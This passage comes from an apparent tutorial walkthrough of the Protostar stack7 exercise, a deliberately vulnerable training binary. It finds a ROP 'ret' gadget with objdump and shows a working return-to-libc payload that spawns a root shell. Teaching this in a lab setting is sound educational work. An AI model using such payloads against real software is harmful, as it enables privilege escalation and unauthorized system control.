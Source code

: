 Execution will return to the address of our ret gadget. ret will get executed
making execution then return into system(), with a shell address as a parameter.
system() will then return into exit.

Let's find that gadget:

```sh
user@protostar:/opt/protostar/bin$ objdump -d stack7 | grep "ret"
 8048383:	c3                   	ret    
 8048494:	c3                   	ret    
 80484c2:	c3                   	ret    
 8048544:	c3                   	ret    
 8048553:	c3                   	ret    
 8048564:	c3                   	ret    
 80485c9:	c3                   	ret    
 80485cd:	c3                   	ret    
 80485f9:	c3                   	ret    
 8048617:	c3                   	ret    
```

Any of these addresses will work. I'll pick the first, **0x08048383**.

And as said before, this is very similar to the previous, we only need to add
this ROP gadget. As such, our attack is as follows:

```sh
user@protostar:/opt/protostar/bin$ python -c "print 'A' * 80 + '\x83\x83\x04\x08' + '\xb0\xff\xec\xb7' + '\xc0\x60\xec\xb7' + '\xb9\xf9\xff\xbf'" > /tmp/stack7.pwn
user@protostar:/opt/protostar/bin$ (cat /tmp/stack7.pwn; cat) | ./stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��AAAAAAAAAAAA�������`췹���

whoami
root
```

And again, a root shell :D

## Conclusion

Thanks for reading and making it this far! Hopefully you learned a trick or two
in the process.

Please stay tuned for part 2 which will cover Protostar's format string
challenges!
